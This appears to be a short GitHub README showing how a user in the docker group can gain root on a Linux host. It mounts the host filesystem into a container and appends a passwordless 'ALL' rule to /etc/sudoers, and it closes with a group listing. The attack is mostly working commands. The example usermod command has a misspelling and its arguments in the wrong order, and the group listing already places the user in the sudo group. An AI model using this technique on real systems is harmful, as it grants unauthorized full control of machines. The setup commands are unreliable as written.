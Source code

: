 Assume that we have user that has not got any permissions in "etc/sudoers" file,
but suddenly have access for docker group ```(set-up: sudo usermod -aG <user> <group> ex. sudo suermod -aG BillyGLW docker).```

# Escalation

mkdir pesc
cd pesc
nano Dockerfile
```
FROM debian:wheezy

ENV WORKDIR /pesc

RUN mkdir -p $WORKDIR

VOLUME [ $WORKDIR ]

WORKDIR $WORKDIR
```
docker build -t pesc . 
docker run -v /:/pesc pesc  # put root a file system into workdir, env variable of image with the same name
docker run -v /:/pesc -it pesc /bin/bash

since docker is running with root privilege inside entire file system, originally
hold by my machine, so we can go ahead and work with (etc/sudoers) on original rarget.
because we can edit this, sadly we dont have vim or any editor on docker container, we can actually echo into it
```
echo "<user> ALL=(ALL) NOPASSWD: ALL" >> /pesc/etc/sudoers
```

now in fact we are treated as a root.

# set-up enviroment

### sudo usermod -aG <user> <group> ex. sudo suermod -aG BillyGLW docker

### getent group log:

```
$ getent group
root:x:0:
daemon:x:1:
bin:x:2:
sys:x:3:
adm:x:4:syslog,BillyGLW
tty:x:5:
disk:x:6:
lp:x:7:
mail:x:8:
news:x:9:
uucp:x:10:
man:x:12:
proxy:x:13:
kmem:x:15:
dialout:x:20:
fax:x:21:
voice:x:22:
cdrom:x:24:BillyGLW
floppy:x:25:
tape:x:26:
sudo:x:27:BillyGLW
audio:x:29:
dip:x:30:BillyGLW
www-data:x:33:
backup:x:34:
operator:x:37:
list:x:38:
irc:x:39:
src:x:40:
gnats:x:41:
shadow:x:42:
utmp:x:43:
video:x:44:
sasl:x:45:
plugdev:x:46:BillyGLW
staff:x:50:
games:x:60:
users:x:100:
nogroup:x:65534:
systemd-journal:x:101:
systemd-network:x:102:
systemd-resolve:x:103:
input:x:104:
crontab:x:105:
syslog:x:106:
messagebus:x:107:
lxd:x:108:BillyGLW
mlocate:x:109:
uuidd:x:110:
ssh:x:111:
landscape:x:112:
BillyGLW:x:1000:
netdev:x:113:
rdma:x:114:
sambashare:x:115:BillyGLW
BillyGLW:x:1001:
docker:x:116:BillyGLW
```
